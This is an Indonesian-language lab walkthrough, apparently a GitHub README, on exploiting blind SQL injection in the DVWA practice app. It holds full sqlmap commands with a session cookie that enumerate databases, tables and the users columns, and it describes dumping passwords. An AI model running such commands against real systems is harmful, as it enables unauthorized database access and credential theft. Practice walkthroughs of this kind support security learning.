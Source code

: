 <b> HOW TO SOLVE SQL INJECTION BLIND </b>


Sekarang kita coba menggunakan  
```
'1
```
 apakah vulnerable atau tidak
 
![Screenshot (464)](https://user-images.githubusercontent.com/118157585/216914220-44732cad-9ef5-48d2-a694-daf675c2651d.png)

dammmmn! ternyata vulnerable.

![Screenshot (465)](https://user-images.githubusercontent.com/118157585/216914282-690c2d67-87af-4de8-a98a-a38e345627c6.png)

nah sekarang saatnya kita copy link tersebut, untuk kita tes di tools <b><i> SQL Injection </i></b>

![Screenshot (467)](https://user-images.githubusercontent.com/118157585/216914420-1432de38-8c99-4103-b26b-ed528f4114c2.png)

sebelum ke <b><i> SQL Injection </i></b> kita cari tahu dulu PHPSESSID nya, yaitu dengan klik kanan pada tampilan dvwa SQLI Blind, llau klik inspect element, nah setelah itu klik storage.

![Screenshot (468)](https://user-images.githubusercontent.com/118157585/216914472-d1365172-f36a-4f67-b3fd-b78ce72bccf4.png)

nahhhh sekarang kita coba crack databases nya, ada apa ajasih disana. dengan mengetikkan perintah :

```
sqlmap -u 'http://192.168.18.115/DVWA/vulnarebilities/sqli_blind/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=gg58gd3lp0rqeq3rftt96l1b3kq' --dbs
```

ternyata disana ada <b><i> * dvwa dan * information_scheme </i></b>.

![Screenshot (473)](https://user-images.githubusercontent.com/118157585/216918953-f94e854d-a85d-4602-b0b2-c8c0d89ba805.png)

sekarang kita lanjut untuk mencari tables nya, kita crack databases <b><i> dvwa </i></b> , dengan mengetikkan perintah :

```
sqlmap -u 'http://192.168.18.115/DVWA/vulnarebilities/sqli_blind/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=gg58gd3lp0rqeq3rftt96l1b3kq' -D dvwa --tables
```

nah disana terdapat 2 tables yaitu <b><i> guestbook dan users </i></b>

![Screenshot (469)](https://user-images.githubusercontent.com/118157585/216914534-a11d21ed-488b-4cc2-964c-80d04f2316c6.png)

lalu sekarang kita lanjut untuk mencari columns nya dari tables kedua tersebut, tapi saya feeling columns yang penting berada di tables <b><i> users </i></b>.
jadi kita crack di tables <b><i> users </i></b> dengan menggunakan perintah :

```
sqlmap -u 'http://192.168.18.115/DVWA/vulnarebilities/sqli_blind/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=gg58gd3lp0rqeq3rftt96l1b3kq' -T users --columns
```

nah disini terdapat 8 columns yang mana salah dua column tersebut adalah yang kita cari, yaitu <b><i> password dan user_id </i></b>

![Screenshot (470)](https://user-images.githubusercontent.com/118157585/216914627-66c0f0cc-8238-4fb1-9e14-3a5366b64288.png)

ini tampilan saat kita sudah ngedump <b><i>user_id</i></b> columns

![Screenshot (471)](https://user-images.githubusercontent.com/118157585/216914738-07273ce5-2666-4607-89a5-e8390b9aa9c0.png)

ini tampilan saat kita sudah ngedump <b><i>password</i></b> columns

![Screenshot (472)](https://user-images.githubusercontent.com/118157585/216914855-fea2c425-2fe1-4fad-8929-a3d3e1584747.png)
